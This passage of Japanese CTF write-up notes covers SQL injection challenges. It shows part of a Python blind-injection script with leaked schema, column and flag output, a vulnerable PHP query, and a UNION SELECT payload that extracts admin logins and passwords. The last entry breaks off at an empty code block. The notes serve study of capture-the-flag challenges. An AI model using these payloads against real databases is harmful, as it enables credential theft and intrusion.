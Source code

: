 ```python
        print "[+] now:%s" % leak
        break
    if len(leak) != j:
      print "[*] %s" % leak
      break

leak_schema_name()
# schema1:information_schema
# schema2:spy_database

leak_table_column_name()
# spies:id,spies:name,spies:age,spies:experience,spies:description,users:id,users:username,users:password,users:email

leak_admins_password()
# pctf{L31's|@Ll_h4il-1h3-c4T_Qu33n.?}
```
## Union query / login (Securinets Prequals CTF 2019 – SQL Injected)
https://ctftime.org/writeup/14117  
- **entrypoint**  
配布されるソースの中の以下が脆弱。  
PayloadをusernameとしてRegisterすればSQLInjectionできそう。  
```txt
$sql = "SELECT * FROM posts WHERE author = '". $_SESSION['username'] ."'";
```
`https://web5.ctfsecurinets.com/flags.php`にadminとしてログインすればフラグが得られる。  
`create_db.sql`では以下のようになっているため、データベース上の構成がわかる。  
`users`テーブルには`id`,`login`,`password`,`role`  
`posts`テーブルには`id`,`title`,`content`,`date`,`author`カラムで構成されている。  
```txt
create database webn;
create table users (id int auto_increment primary key, login varchar(100), password varchar(100), role boolean default 0);
create table posts (id int auto_increment primary key, title varchar(50), content text, date Date, author varchar(100));
```
上記のSQLInjectionできるポイントで`title`,`content`カラムを表示させるところに`union select login,password from users`みたいな感じでユーザー名とパスワードを合わせれば表示されそう。  
`union select`では`posts`テーブルと同じカラム数を渡さないといけないので以下のようにNULLで調整。  
admin的なユーザーの名前もパスワードのカラム名もわからないが、roleが1となっているはずなので以下のようにする。  
```txt
' UNION SELECT id, login, password, NULL, NULL FROM users WHERE role = 1 AND '' = '
```
これで得られたクレデンシャルでログインすればFlagが得られる。  
- **payload**  
```txt
' UNION SELECT id, login, password, NULL, NULL FROM users WHERE role = 1 AND '' = '
```
## Union query / DB empty / login  (EasyCTF 2017  Sql Injection 2)
https://ctftime.org/writeup/6016  
- **entrypoint**  
`power level over 9000`で`leet1337`というユーザーでログインする必要があるが、そのようなユーザーはDBには存在しないと問題文にある。Union selctで挿入すればよい。  
以下のような構成になっているらしい。  
```txt
select username, password, power_level, id from some-table where username="" and password="(our sql string)"
```
`" union select sleep(5),"leet1337","leet1337",9001`を挿入すると最後の`9001`が文字列ではないため、`9001"`となってしまいよろしくない。そのため、以下のように適当なテーブルからデータを取得してるっぽく描けばいい。(コメントしてもいいと思うけど)  
```txt
```